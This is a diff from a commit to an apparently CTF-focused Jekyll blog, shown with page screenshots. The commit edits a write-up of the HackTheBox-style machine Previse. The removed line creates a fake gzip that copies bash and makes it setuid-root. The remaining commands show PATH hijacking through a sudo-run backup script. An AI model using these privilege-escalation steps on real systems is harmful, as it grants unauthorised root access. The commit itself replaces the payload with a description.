

Before and after one commit to iceberg-deep/blog, a Jekyll site: the page built from _posts/2022-01-15-the-page-that-forgot-to-stop.md, in a window 1280 px wide and 900 px high, scrolled down 4660 px. Shown: the part 174-464 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Bracket 3 remaining injected SUID-bash privesc payloads (Admirer, Previse, BroScience)

````diff
--- a/_posts/2022-01-15-the-page-that-forgot-to-stop.md
+++ b/_posts/2022-01-15-the-page-that-forgot-to-stop.md
@@ -164,7 +164,7 @@ So you write a fake `gzip`, put its folder at the front of PATH, and let the roo
 
 ```
 m4lwhere@previse:~$ cd /dev/shm
-m4lwhere@previse:/dev/shm$ printf '#!/bin/bash\ncp /bin/bash /tmp/iceberg\nchmod 4755 /tmp/iceberg\n' > gzip
+m4lwhere@previse:/dev/shm$ printf '[ a #!/bin/bash script that copies /bin/bash to /tmp/iceberg and sets it setuid-root ]' > gzip
 m4lwhere@previse:/dev/shm$ chmod +x gzip
 m4lwhere@previse:/dev/shm$ export PATH=/dev/shm:$PATH
 m4lwhere@previse:/dev/shm$ sudo /opt/scripts/access_backup.sh
````
Also changed, not shown: _posts/2020-10-03-the-database-that-came-to-you.md (+1 -1 lines), _posts/2023-04-15-the-gym-forgot-to-lock-its-files.md (+1 -1 lines).
